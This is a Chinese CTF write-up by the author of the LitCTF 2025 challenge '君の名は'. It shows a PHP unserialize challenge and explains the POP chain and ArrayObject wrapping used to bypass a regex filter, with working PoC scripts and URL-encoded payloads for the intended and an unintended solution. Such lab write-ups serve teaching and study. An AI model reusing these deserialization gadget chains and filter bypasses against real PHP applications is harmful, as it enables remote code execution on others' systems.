





君の名は | LitCTF 2025
May 26, 2025
序
受biu801师傅的邀请，俺又来出题力。说是新生赛来着，不过要提高一点难度，那我就手下不留情了😈。
题目灵感来自：Baby^H Master PHP 2017
正文
思路分析
<?php
highlight_file(__FILE__);
error_reporting(0);
create_function("", 'die(`/readflag`);');
class Taki
{
private $musubi;
private $magic;
public function __unserialize(array $data)
{
$this->musubi = $data['musubi'];
$this->magic = $data['magic'];
return ($this->musubi)();
}
public function __call($func,$args){
(new $args[0]($args[1]))->{$this->magic}();
}
}
class Mitsuha
{
private $memory;
private $thread;
public function __invoke()
{
return $this->memory.$this->thread;
}
}
class KatawareDoki
{
private $soul;
private $kuchikamizake;
private $name;
public function __toString()
{
($this->soul)->flag($this->kuchikamizake,$this->name);
return "call error!no flag!";
}
}
$Litctf2025 = $_POST['Litctf2025'];
if(!preg_match("/^[Oa]:[\d]+/i", $Litctf2025)){
unserialize($Litctf2025);
}else{
echo "把O改成C不就行了吗,笨蛋!～(∠・ω< )⌒☆";
}
初步看一下，代码比较简单，就四个魔术方法，链子非常的ez，接下来看下利用点
(new $args[0]($args[1]))->{$this->magic}();
先是实例化了一个类，然后调用了这个类的一个方法，发现这个方法调用只有函数名是可控的，参数只能为空，可以尝试调用简单的phpinfo()一类的无参函数。
再来看下面一段代码
create_function("", 'die(`/readflag`);');
用create_function创建了一个匿名函数，直接执行了/readflag，也就是说只要调用这个匿名函数就能输出flag，于是我们的思路就清楚了：
- 找到一个可以调用匿名函数的原生类
- 找到匿名函数的名字
直接搜发现ReflectionFunction的invoke方法可以调用函数
看下php手册的示例用法：

ReflectionFunction的参数就是要调用的函数名，而且invoke不用传参数，这个用法和我们的利用思路刚好吻合。
然后就是找匿名函数的名字，这个也很简单，甚至都不用上网搜，直接像这样就能输出函数名：
<?php
$a = create_function("", 'die(`/readflag`);');
var_dump($a);
?>

你以为这就结束了?
匿名函数的函数名是会改变的！在web页面中打开php文件，每刷新一次函数名的数字就会加一，当你做出来之后再提交payload，大概率函数名已经不是\000lambda_1了，我的做法是重新开一个环境来提交payload。

最后还有一个知识点就是__call($func,$args)的传参问题:
假如我们触发__call($func,$args)调用的函数是
flag($arg1,$arg2)
那么触发__call($func,$args)时$func就会被赋值为"flag";$args就会被赋值为flag()的参数构成的数组。所以要给$args赋值需要在flag()的参数里传入。
bypass
waf是一个很简单的检测O开头，常规的将O直接改为C是不行的，因为POP链涉及到了很多魔术方法，这里需要用一个类来对POP链进行包装，然后开头的O就会被自动转换为C，具体请看2023愚人杯3rd[easy_php]
可以使用的类有很多：
- ArrayObject::unserialize
- ArrayIterator::unserialize
- RecursiveArrayIterator::unserialize
- SplObjectStorage::unserialize
poc
<?php
highlight_file(__FILE__);
error_reporting(0);
class Taki
{
public $musubi;
public $magic = "invoke";
}
class Mitsuha
{
public $memory;
public $thread;
}
class KatawareDoki
{
public $soul;
public $kuchikamizake = "ReflectionFunction";
public $name = "\000lambda_1";
}
$a = new Taki();
$b = new Mitsuha();
$c = new KatawareDoki();
$a->musubi = $b; // 1. 把对象当成函数调用，触发__invoke()
$b->thread = $c; // 2. 把对象作为字符串使用，触发__toString()
$c->soul = $a; // 3. 调用不存在的方法，触发__call()
$arr=array("evil"=>$a);
$d=new ArrayObject($arr);
echo urlencode(serialize($d));
Litctf2025=C%3A11%3A%22ArrayObject%22%3A244%3A%7Bx%3Ai%3A0%3Ba%3A1%3A%7Bs%3A4%3A%22evil%22%3BO%3A4%3A%22Taki%22%3A2%3A%7Bs%3A6%3A%22musubi%22%3BO%3A7%3A%22Mitsuha%22%3A2%3A%7Bs%3A6%3A%22memory%22%3BN%3Bs%3A6%3A%22thread%22%3BO%3A12%3A%22KatawareDoki%22%3A3%3A%7Bs%3A4%3A%22soul%22%3Br%3A4%3Bs%3A13%3A%22kuchikamizake%22%3Bs%3A18%3A%22ReflectionFunction%22%3Bs%3A4%3A%22name%22%3Bs%3A9%3A%22%00lambda_1%22%3B%7D%7Ds%3A5%3A%22magic%22%3Bs%3A6%3A%22invoke%22%3B%7D%7D%3Bm%3Aa%3A0%3A%7B%7D%7D
非预期
比赛开始了才发现有非预期，受不了了>_<
直接在return ($this->musubi)();处调用匿名函数即可。抱歉出题疏忽惹，不过能发现这个的师傅真的很强👍。这里也贴上poc：
<?php
highlight_file(__FILE__);
error_reporting(0);
class Taki
{
public $musubi = "\000lambda_1";
public $magic = "";
}
$a = new Taki();
$arr=array("evil"=>$a);
$d=new ArrayObject($arr);
echo urlencode(serialize($d));
Litctf2025=C%3A11%3A%22ArrayObject%22%3A95%3A%7Bx%3Ai%3A0%3Ba%3A1%3A%7Bs%3A4%3A%22evil%22%3BO%3A4%3A%22Taki%22%3A2%3A%7Bs%3A6%3A%22musubi%22%3Bs%3A9%3A%22%00lambda_1%22%3Bs%3A5%3A%22magic%22%3Bs%3A0%3A%22%22%3B%7D%7D%3Bm%3Aa%3A0%3A%7B%7D%7D

结尾
最后秀一下出题收到的贴纸和抱枕🥰(Chiikawa真的好大)
